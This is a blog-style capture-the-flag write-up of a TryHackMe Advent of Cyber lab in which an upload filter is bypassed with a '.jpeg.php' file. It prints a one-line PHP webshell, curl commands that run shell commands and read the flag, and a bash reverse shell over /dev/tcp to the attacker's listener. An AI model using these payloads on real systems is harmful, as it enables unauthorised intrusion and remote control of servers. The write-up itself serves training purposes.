





Advent of Cyber2 Day 0x02

0x00 Intro⌗
Another day, another challenge. The task was simple - RCE via Unrestricted File Upload. The uploaded file must be the .jpeg one, so sanitization mechanism has to be bypassed.
0x01 Solution⌗
To get access to the upload page the id parameter is needed in the GET request.
GET /uploads/?id=ODIzODI5MTNiYmYw HTTP/1.1
Host: 10.10.52.175
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Then there is a service to upload images of suspicious peoples hanging around. Hopefully GPDR’s rules don’t apply here, we want to have Christmas, right?

Uploading is restricted to jpeg files only.

But the only thing that matters is something with the file extension itself.

Notice the difference in the extension.

So even though the mime value and body payload is marked as image or base64 encoded image data the upload doesn’t succeed.
Although even txt payloads with the .jpeg extension pass the checks.

The simplest webshell I can think of:
<?php system($_GET['cmd']);?>
Uploading a PHP webshell with the .jpeg.php extension is successful. The only one thing left is to reach this file via the HTTP server that will execute the PHP code.
To find the upload folders, before running the ffuf or another fuzzer/dirbuster software, it’s a good idea to try some common names. In this case files were stored in the /uploads/.
╰─○ curl -si "http://10.10.245.201/uploads/shell.jpeg.php?cmd=id"
HTTP/1.1 200 OK
Date: Wed, 02 Dec 2020 19:33:21 GMT
Server: Apache/2.4.37 (centos)
X-Powered-By: PHP/7.2.24
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8
uid=48(apache) gid=48(apache) groups=48(apache)
Low priv account apache of the server grants rights to read directory content of the /uploads/ folder and parent directories.
╰─○ curl -si "http://10.10.245.201/uploads/shell.jpeg.php?cmd=ls+-la+../"
HTTP/1.1 200 OK
Date: Wed, 02 Dec 2020 19:35:15 GMT
Server: Apache/2.4.37 (centos)
X-Powered-By: PHP/7.2.24
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8
total 36
drwxr-xr-x 4 root root 196 Nov 19 03:17 .
drwxr-xr-x. 4 root root 49 Nov 19 11:14 ..
drwxr-xr-x 6 root root 51 Nov 19 02:45 assets
-rw-r--r-- 1 root root 874 Nov 19 02:12 auth.php
-rw-r--r-- 1 root root 365 Nov 19 02:48 cover.php
-rw-r--r-- 1 root root 1150 Nov 19 02:48 favicon.ico
-rw-r--r-- 1 root root 192 Nov 19 02:29 get-ids.php
-rw-r--r-- 1 root root 2448 Nov 16 18:35 id-list
-rw-r--r-- 1 root root 412 Nov 19 03:09 index.php
-rw-r--r-- 1 root root 406 Nov 19 02:12 lightrope.php
-rw-r--r-- 1 root root 513 Nov 19 00:17 preauth.php
-rw-r--r-- 1 root root 1146 Nov 19 02:31 upload.php
drwxrwxrwx 2 apache apache 62 Dec 2 14:31 uploads
And…
╰─○ curl -si "http://10.10.245.201/uploads/shell.jpeg.php?cmd=ls+-la+../../"
HTTP/1.1 200 OK
Date: Wed, 02 Dec 2020 19:35:43 GMT
Server: Apache/2.4.37 (centos)
X-Powered-By: PHP/7.2.24
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8
total 8
drwxr-xr-x. 4 root root 49 Nov 19 11:14 .
drwxr-xr-x. 21 root root 4096 Nov 16 17:50 ..
drwxr-xr-x. 2 root root 6 Sep 15 11:46 cgi-bin
-rw-r--r-- 1 root root 635 Nov 19 11:14 flag.txt
drwxr-xr-x 4 root root 196 Nov 19 03:17 html
There is our flag and the message:
╰─○ curl -si "http://10.10.245.201/uploads/shell.jpeg.php?cmd=cat+../../flag.txt"
HTTP/1.1 200 OK
Date: Wed, 02 Dec 2020 19:36:14 GMT
Server: Apache/2.4.37 (centos)
X-Powered-By: PHP/7.2.24
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8
==============================================================
You've reached the end of the Advent of Cyber, Day 2 -- hopefully you're enjoying yourself so far, and are learning lots!
This is all from me, so I'm going to take the chance to thank the awesome @Vargnaar for his invaluable design lessons, without which the theming of the past two websites simply would not be the same.
Have a flag -- you deserve it!
THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}
Good luck on your mission (and maybe I'll see y'all again on Christmas Eve)!
--Muiri (@MuirlandOracle)
==============================================================
Of course instead of uploading the webshell one can use a reverse shell and connect back from the machine. Or invoke the reverse shell from this one like this:
(listener)
nc -lvp 8089
(command to invoke revshell)
╰─○ curl -si "http://10.10.245.201/uploads/shell.jpeg.php?cmd=bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.8.137.15%2F8089%200%3E%261%0A"
And done:
╰─○ nc -lvp 8089
listening on [any] 8089 ...
10.10.245.201: inverse host lookup failed: Unknown host
connect to [10.8.137.15] from (UNKNOWN) [10.10.245.201] 58702
bash: cannot set terminal process group (833): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.4$ ls
ls
bj.jpeg
bj.jpeg.txt
shell.jpeg.php
bash-4.4$ uname -a
uname -a
Linux security-server 4.18.0-193.28.1.el8_2.x86_64 #1 SMP Thu Oct 22 00:20:22 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
bash-4.4$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)
It was as simple as that!
C u tomorrow!
foxtrot_charlie over and out
Comments⌗
My comments operate on free Heroku instance. If there is no traffic in 30 minutes the dyno service goes asleep. That causes a small delay in submitting your comment. Thank you for your patience ;)Nothing yet.
Say something